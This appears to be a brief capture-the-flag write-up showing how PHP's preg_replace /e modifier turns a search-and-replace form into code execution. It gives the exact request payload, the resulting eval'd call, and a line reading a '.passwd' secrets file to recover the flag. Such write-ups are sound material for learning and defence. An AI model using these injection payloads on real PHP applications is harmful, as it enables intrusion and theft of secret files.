


We can supply the `/e`, and then the `preg_replace` will be like `eval` and let us run code, like this challenge: https://avishaigonen123.github.io/CTF_writeups/websec.fr/level05.html

we send this:
```
search=/bla/e&replace=show_source("flag.php");&content=bla
```
By this way, the preg_replace command that'll be run is:
```php
preg_replace("/bla/e","show_source("flag.php");","bla");
```

And we can see the content of `flag.php`. So, the flag is inside `.passwd`



Then, we can run this:
```php
die(file_get_contents(".passwd"))
```


Then, we got this:

**Flag:** **_`pr3g_r3pl4c3_3_m0d1f13r_styl3`_**
